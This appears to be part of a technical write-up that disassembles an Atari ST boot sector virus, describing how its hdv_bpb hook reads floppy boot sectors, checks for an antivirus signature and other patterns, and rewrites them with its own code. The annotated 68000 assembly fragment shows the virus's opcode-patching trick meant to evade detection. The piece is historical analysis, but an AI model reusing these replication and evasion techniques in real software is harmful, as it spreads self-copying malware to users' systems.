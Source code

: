 ### The HDV_BPB vector

Now that the virus is installed in memory, and that the VBL routine has set the `hdv_bpb` vector, it will wait any call to BIOS `Getbpb()` which retrieves the `BPB` (Bios Parameter Block) of the floppy disk. 
This vector will:

 - Patch the `READ_OR_WRITE_BOOTSECTOR` subroutine Trap call with the good opcode (8: `FLOPRD`)
 - Call `READ_OR_WRITE_BOOTSECTOR` to read the bootsector
 - Unpatch the opcode to avoid detection
 - Look for specific patterns in the bootsector:
   - DISKBUF[130] == "Boot" => (Sagrotan virus killer)     
   - DISKBUF[i] == `RESVEC_MAGIC` anywhere in the bootsector
   - DISKBUF[i] == `MOVE.W #$09,-(sp) TRAP #$E` (FLOPWR call) anywhere in the bootsector
   - DISKBUF[i] == `MOVE.W #$12,-(sp) TRAP #$E` (PROTOBT call) anywhere in the bootsector
 - If found or if the bootsector word checksum is not `0x1234` (means executable), it will replicate itself:
   - write the "special" bootsector branch (1 empty long then the branch)
   - copy the bootcode (note, too many bytes)
   - recompute and adjust the word checksum
   - Patch the `READ_OR_WRITE_BOOTSECTOR` subroutine Trap call with the good opcode (9: `FLOPWR`)
   - Call `READ_OR_WRITE_BOOTSECTOR` to write the bootsector

Note that the `SYMPTOMS` routine follow directly the `DETECT` routine.

```asm
; ----------------------------------------------------------------------------------------------------------
; HDV_BPB_VECTOR
; ----------------------------------------------------------------------------------------------------------
HDV_BPB_VECTOR:
        MOVEM.L   A0-A7/D0-D7,-(A7)
        BRA.S     DETECT


; ----------------------------------------------------------------------------------------------------------
; DETECT
; ----------------------------------------------------------------------------------------------------------
DETECT:
        LEA       XBIOS_OPCODE(PC),A3
        MOVE.B    #8,3(A3)                          ; patch XBIOS system call from 0x28 to 0x8. Ah... Ah... Ah...
        BSR.S     READ_OR_WRITE_BOOTSECTOR
        TST.W     D0
        BMI       DONE
        MOVE.B    #$28,3(A3)                        ; Patch again system call (to avoid detection?)

        ; this part looks for some patterns in existing boot sector to decide if it should be replaced or not

        ; Sagrotan bootsector
        MOVEA.L   DISKBUFP.L,A5                     ; A5 = floppy buf
        CMPI.L    #$426F6F74,$82(A5)                ; if bootsector[130] == "Boot" => (Sagrotan virus killer)
        BEQ       .replicate

        MOVEA.L   A5,A4                             ; else A4 = DISKBUFP
        ADDA.W    #$200,A4                          ; A4 = end of DISKBUFP (+512 => $16DA+$200 = $18DA)
        MOVE.L    #RESVEC_PATTERN,D6                ; D6 = RESVEC_PATTERN => footprint for resident program lookup
```